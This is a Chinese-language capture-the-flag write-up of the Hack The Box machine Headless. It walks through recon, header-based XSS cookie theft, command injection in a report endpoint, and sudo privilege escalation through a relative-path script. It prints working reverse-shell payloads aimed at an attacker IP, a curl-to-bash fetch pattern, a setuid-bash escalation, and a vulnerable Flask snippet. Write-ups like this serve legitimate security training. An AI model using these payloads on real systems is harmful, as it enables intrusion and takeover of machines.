---
tags:
  - HTB/Linux
  - HTB/Easy
---
## Summary


xxx

### Relevant Skills

- nmap
- 目录枚举
- XSS
- 会话固定攻击
- 参数污染/注入
- sudo提权

### Attack Path Overview

{ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
```


## 攻击路径规划·漏洞分析

22端口SSH的版本较新，优先度放低。先看5000端口，是个Web。那么大概率是一个常规靶机。


## 5000端口

访问后可发现是个网页。


- robots.txt：无
- .git/config：无
- 网页信息：在进行倒数，可能通过脚本控制，倒数结束后会有什么事情？
- 网页源码：无特别发现。
- 网页功能：倒数。不过点击`For questions`按钮会跳转到`http://10.10.11.8:5000/support`，可以填表单。
- 子域枚举：无域名
- 目录枚举：`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.11.8:5000/`，结果显示上述`/support`，还有个`/dashboard`，访问后显示“Unauthorized”。

### 研究网页功能

#### 倒数结束无事发生

开启burp后再次访问网页，用burp拦截请求后右键选择`Response to this reuest`更改响应，减少其倒数时间，看看倒数结束后有什么事情发生。




将响应中的选中部分改为`5 * 1000`（即5秒）：



转发请求后网页显示倒数5秒：


倒数结束，无事发生：


#### 表单XSS获取Cookie

点击`For questions`按钮跳转到`http://10.10.11.8:5000/support`。尝试XSS，在表单中填入`<script>alert(0)</script>`后发送，网页响应一个WAF警告页面。



**注意到网页中显示了我们的请求头信息。** 同时，观察多次请求可以发现Cookie值是固定不变的，且变量名为`is_admin`，所以怀疑可以获取admin的cookie然后访问之前显示“Unauthorized”的`/dashboard`。

所以可以先测试一下请求头的XSS注入。  
burp拦截请求，随便改一个网页中有显示的请求头（此处修改Referer）为`<script>alert(0)</script>`。

{ width='800' }

发送后弹出alert窗口，证明有XSS漏洞。



另外可以查看网页源码发现HTML确实被修改。

{ width='800' }


接下来尝试获取Cookie。  
kali终端开启http服务。burp重放一下之前的请求，Referer头使用payload：``——让WAF的警告界面加载不可用图片，触发`onerror`使其访问kali主机，并在URL中带上`document.cookie`参数——我们就可以在kali终端得知Cookie。  
可以发现admin的Cookie为：`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`。

{ width='800' }


## Initial Access

### Cookie/会话固定攻击

再次访问`http://10.10.11.8:5000/dashboard`并拦截请求，可以发现Cookie值目前还是我们之前观察到的固定值。将这个Cookie值改为上面说的`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

{ width='600' }

转发请求后成功访问`/dashboard`页面，是一个生成报告的网页。点击`Generate Report`可以发现请求中发送了`date`参数。很有可能可以执行注入。

{ width='600' }

先看看正常情况下的网页响应：

{ width='600' }

### 参数污染PoC

接下来尝试一下注入。首先怀疑后台处理是命令行/bash脚本之类的（由于是linux），于是用分号截断，然后payload加上`id`看看响应：

{ width='600' }

成功回显命令`id`的结果（当前为dvir用户），说明`date`参数存在注入。

{ width='600' }

### 反弹shell

将payload改为`;echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjgiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIikn |base64 -d |bash`，其中base64部分是`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`的编码。  
*后来测试不用base64形式也可以。*

**简单exp：**
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Headless]
└─$ curl -XPOST http://10.10.11.8:5000/dashboard -H 'Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0' -d @payload.txt 
                                                                                    
┌──(kali㉿kalik)-[~/Lab/HTB/Headless]
└─$ cat payload.txt 
date=2023-09-15;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

发送后成功获取dvir用户的反弹shell：
```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.8] 36340
bash-5.2$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```


## flag: user

```bash
bash-5.2$ pwd
pwd
/home/dvir/app
bash-5.2$ cd ..
cd ..
bash-5.2$ ls
ls
app  geckodriver.log  initdb.sh  user.txt
bash-5.2$ cat user.txt  
cat user.txt
5f0 (...) 9b5
```


## Privilege Escalation

### Internal Recon

基础信息收集一把梭：

- IP、端口
- 用户家目录的隐藏文件：无。
- `sudo -l`：发现`/usr/bin/syscheck`免密执行。
- SUID：无特别发现。
- cron：`crontab -l`，`ls /etc/cron*`，无特别发现。

```bash
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck


dvir@headless:~/app$ find / -perm -4000 -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 26776 Feb  1  2023 /usr/bin/pkexec
-rwsr-xr-x 1 root root 62672 Mar 23  2023 /usr/bin/chfn
-rwsr-xr-x 1 root root 59704 Mar 23  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 281624 Jun 27  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 48896 Mar 23  2023 /usr/bin/newgrp
-rwsr-xr-x 1 root root 35128 Mar 23  2023 /usr/bin/umount
-rwsr-xr-x 1 root root 162752 Mar 23  2023 /usr/bin/ntfs-3g
-rwsr-xr-x 1 root root 35128 Apr 19  2023 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 52880 Mar 23  2023 /usr/bin/chsh
-rwsr-xr-x 1 root root 68248 Mar 23  2023 /usr/bin/passwd
-rwsr-xr-x 1 root root 88496 Mar 23  2023 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 72000 Mar 23  2023 /usr/bin/su
-rwsr-xr-- 1 root dip 403832 May 14  2022 /usr/sbin/pppd
-rwsr-xr-x 1 root root 653888 Dec 19 16:51 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18664 Feb  1  2023 /usr/lib/polkit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 14672 Jan 22 08:19 /usr/lib/xorg/Xorg.wrap


dvir@headless:~/app$ crontab -l
 (...)
@reboot /usr/bin/python3 /home/dvir/app/inspect_reports.py
```

看一下sudo免密执行的`/usr/bin/syscheck`：
```bash
bash-5.2$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

注意到`./initdb.sh`用了相对路径，如果能创建一个同名文件便可以轻松利用。然后关键部分为查看是否有名为`initdb.sh`的进程在执行。
尝试一下`pgrep`命令看看结果：
```bash
dvir@headless:~/app$ /usr/bin/pgrep -x "initdb.sh"
dvir@headless:~/app$ echo $?
1
```

所以`syscheck`命令会运行到`./initdb.sh`的部分，实际执行一下看看：
```bash
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.04, 0.03, 0.00
Database service is not running. Starting it...
```

确实是，并且当前目录也并无`./initdb.sh`所以无事发生。

### sudo提权

新建一个`initdb.sh`测试一下，运行`sudo /usr/bin/syscheck`可以发现最后多了一行输出“test”，即我们指定的命令：
```bash
dvir@headless:~/app$ cat initdb.sh 
#!/bin/bash
echo test
dvir@headless:~/app$ ls -l initdb.sh 
-rwxr-xr-x 1 dvir dvir 22 Apr 14 10:29 initdb.sh
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
test
```

修改脚本后提权：
```bash
dvir@headless:~/app$ cat initdb.sh 
#!/bin/bash
chmod +s /bin/bash

dvir@headless:~/app$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash

dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...

dvir@headless:~/app$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 24  2023 /bin/bash

dvir@headless:~/app$ bash -p
bash-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) egid=0(root) groups=0(root),100(users),1000(dvir)
```


## flag: root

```bash
bash-5.2# cat /root/root.txt 
20f7 (...) 158e
```

---

## 总结·后记

2024/04/14

应该算是十分简单的靶机，但是由于一开始并未领悟XSS触发条件为需要先触发WAF警告页面——因为报头注入的XSS会在WAF警告页面回显，所以一开始还卡了挺久的。回想起来最初看到WAF警告时，连警告页面的内容都没仔细看，就直接默认需要一些高级技巧来绕过，对XSS绕过进行了一阵大搜特搜，着实走偏了。最后意识到问题所在，便一切豁然开朗，迅速拿下。


### 失败的反弹shell

反弹shell的部分最开始试了下`;bash -i >& /dev/tcp/10.10.14.8/4444 0>&1`，以及其相关形式，如`;bash -c 'echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ== |base64 -d |bash'`等都不行。很是奇怪，看了下目标脚本的处理也没明白为什么。  
不过将命令行写到脚本，然后用`curl <attacker-ip>/exp.sh |bash`的形式调用是可行的。

相关脚本：
```bash
bash-5.2$ cat /home/dvir/app/app.py

from flask import Flask, render_template, request, make_response, abort, send_file
from itsdangerous import URLSafeSerializer
import os
import random

 (...)

@app.route('/dashboard', methods=['GET', 'POST'])
def admin():
    if serializer.loads(request.cookies.get('is_admin')) == "user":
        return abort(401)

    script_output = ""

    if request.method == 'POST':
        date = request.form.get('date')
        if date:
            script_output = os.popen(f'bash report.sh {date}').read()

    return render_template('dashboard.html', script_output=script_output)
```